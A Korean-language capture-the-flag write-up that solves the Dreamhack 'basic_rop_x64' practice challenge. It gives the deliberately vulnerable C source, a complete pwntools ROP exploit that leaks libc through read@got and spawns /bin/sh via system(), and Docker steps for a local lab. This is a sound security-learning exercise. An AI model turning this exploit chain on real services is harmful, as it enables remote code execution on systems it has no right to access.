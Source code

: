 # basic_rop_x64

**실습 코드**

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

실습 코드를 쭉 보니 read에서 buf 에 오버플로우가 일어나니까  
그냥 read 로 got 읽고 write로 써서 알아낸 다음에   
system 셀까지 킬 수 있을 거 같다.    

<br>

![image](https://github.com/user-attachments/assets/74383a8a-9b6c-484d-a607-945724f69418)

적용된 보안 목록을 보니까 카나리가 없다.  
그럼 처음 read에 got 에서 read 함수 주소를 들고와야겠다.

<br>

![image](https://github.com/user-attachments/assets/7ecd8845-bc9b-446d-94cd-8f7cc6171859)

read 전에 대충 브레이크를 걸고 H 문자열을 넣어서 스택 구조를 봐준다  

<br>

![image](https://github.com/user-attachments/assets/3d152412-a7b8-406c-9580-c85f430b8609)

![image](https://github.com/user-attachments/assets/286f6232-0d55-47a8-a4ed-1e5f1d772238)

buf(64바이트) +SFP(8바이트) + 리턴주소(8바이트)  
인게 잘 보이니까 쓰레기값 72바이트 위에 바로 원하는 걸 넣으면 되겠다  

우선 got에 read 함수 주소를 알아야하니까   
덮어씌울 값 구조부터 떠올려보자   

read는 인자가 세개니까 rdi, rsi, rdx 순서대로 인자가 들어간다   

내가 원하는 건 read(0, read@got, 0x8) 이니까 각각 숫자를 넣을 수 있도록    
pop 리턴 가젯들을 찾아준다   

<br>


![image](https://github.com/user-attachments/assets/fb26f17c-2bf0-4a82-b9b0-a034e4fb9bbe)

근데   
pop rdi는 찾았고 rsi랑 rdx가 따로 있는게 없어서  
pop rsi ; pop r15 ; ret 얘를 써야겠다  

이 파일에서는 rdx 가 이전 read에 의해 충분히 크게 들어가니까 앞에 두개만 신경써서 넣어주겠다  

`pop rdi` : 0x400883  

`pop rsi ; pop r15 ; ret` : 0x400881  

<br>


![image](https://github.com/user-attachments/assets/2f36d30d-58a3-4eb6-b152-5b9d2aeb29cf)

혹시 필요할지도 모르니 ret도 찾아놨다.  

```python
from pwn import *

# p = remote('host3.dreamhack.games',23241)
p = process('./basic_rop_x64')
e = ELF('./basic_rop_x64')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

pop_rdi = 0x400883
pop_rsi_r15 = 0x400881
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']
main_addr = e.symbols['main']

payload = b'A'*0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main_addr)

p.send(payload)
p.recvuntil(b'A'*0x40)
leaked_read = u64(p.recvn(6) + b'\x00'*2)
slog('leaked puts', leaked_read)

```

이렇게 코드를 짰다.  

`pop rdi` 랑 `pop rsi` 에 각각 `1`과 `read@got`를 넣은 뒤 메인으로 복귀했다.   
`write(1, read@got, 기존 rdx)` 이런 코드가 된거다. (8 말고 아무 값이나 넣어도 상관없다.)   

실행시켜보면   

<br>


![image](https://github.com/user-attachments/assets/5bfbcb54-0411-4da8-940b-520a0f667041)

잘 나온다.   

main으로 돌아 왔고 got까지 구했으니 이젠 system 호출해서 /bin/sh까지 적어보겠다  

그냥 쓰레기값 0x48 바이트 뒤에  
시스템 함수랑 binsh 를 인자로 넣어서 보내게 짜봤다.  

```python
from pwn import *

p = remote('host3.dreamhack.games',23241)
e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

pop_rdi = 0x400883
pop_rsi_r15 = 0x400881
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']
main_addr = e.symbols['main']

payload = b'A'*0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main_addr)

p.send(payload)
p.recvuntil(b'A'*0x40)
leaked_read = u64(p.recvn(6) + b'\x00'*2)
slog('leaked puts', leaked_read)

libc_base = leaked_read - libc.symbols['read']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

payload = b'A'*0x48
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.send(payload)
p.interactive() 
```

이제 이걸 보내보면  

<br>


![image](https://github.com/user-attachments/assets/fbfbaa10-f9c9-4c8e-adba-648a97d7e355)

잘 나온다.  

이번 실습도 로컬에서 실행이 안됐었다.  
`p = process('./basic_rop_x64', env={'LD_PRELOAD': './libc.so.6'})`  
로 같이 받은 libc 파일을 강제 참조를 시켜봐도 안됐다.  

그래서 그냥 실습 파일에 같이 있던 도커 파일로 실습 환경을 구축해줬는데 
잘 됐다.    

실습환경 구축하는 방법은    

```bash
$ docker build -t basic_rop_image .
$ docker run -d -p 10001:10001 --name basic_rop_container basic_rop_image
```

이렇게 도커 이미지 생성해주고 로컬 포트에 이어주면 된다  
그리고 기존코드에서  

```bash
from pwn import *

p = remote('localhost', 10001)
```

이렇게만 바꿔주면 쉽게 만들 수 있다.  


**로컬 실행**  
![image](https://github.com/user-attachments/assets/40455500-0498-48ce-a8ab-b0436a142c62)

둘 다 성공!

